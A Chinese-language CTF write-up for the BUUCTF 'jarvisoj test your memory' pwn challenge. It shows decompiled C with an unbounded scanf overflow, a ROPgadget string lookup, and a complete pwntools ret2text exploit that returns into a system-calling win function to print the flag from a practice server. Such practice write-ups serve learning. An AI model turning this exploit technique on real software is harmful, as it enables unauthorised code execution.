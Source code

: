 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj test your memory
date: 2022-4-3 09:25:10
permalink: /pages/2e1547494524d1a4
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj test your memory

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_test_your_memory/memory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s2[11]; // [esp+1Dh] [ebp-13h]
  int v6; // [esp+28h] [ebp-8h]
  int i; // [esp+2Ch] [ebp-4h]

  v6 = 10;
  puts("\n\n\n------Test Your Memory!-------\n");
  v3 = time(0);
  srand(v3);
  for ( i = 0; i < v6; ++i )
    s2[i] = alphanum_2626[rand() % 0x3Eu];
  printf("%s", s2);
  mem_test(s2);
  return 0;
}
```

mem_test函数如下

```c
int __cdecl mem_test(char *s2)
{
  int result; // eax
  char s; // [esp+15h] [ebp-13h]

  memset(&s, 0, 0xBu);
  puts("\nwhat???? : ");
  printf("0x%x \n", hint);
  puts("cff flag go go go ...\n");
  printf("> ");
  __isoc99_scanf("%s", &s);
  if ( !strncmp(&s, s2, 4u) )
    result = puts("good job!!\n");
  else
    result = puts("cff flag is failed!!\n");
  return result;
}
```

win_func函数如下

```c
int __cdecl win_func(char *command)
{
  return system(command);
}
```

Gadget如下

```shell
ROPgadget --binary memory --string "cat flag\x00"
Strings information
============================================================
0x080487e0 : cat flag
```



## 思路分析

1. 目前信息：
   
   - mem_test函数存在溢出点
   - 存在后门函数win_func
   - 存在`cat flag`字符串
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 32位ret2text

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_test_your_memory/memory'
io = remote('node4.buuoj.cn', 25219)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x13+4
win_func = elf.symbols['win_func']
cat_flag_addr = 0x080487E0
payload = flat(['a'*padding, win_func, cat_flag_addr, cat_flag_addr])
# 这里win_func函数实际上是执行system调用，调用完毕返回的地址不能设置为无效地址，不然缓冲区中的flag会无法接受到
# 随意填写一个有效地址例如cat_flag_addr，在程序崩溃后会将缓冲区内容传过来
io.sendline(payload)
print(io.recv())
```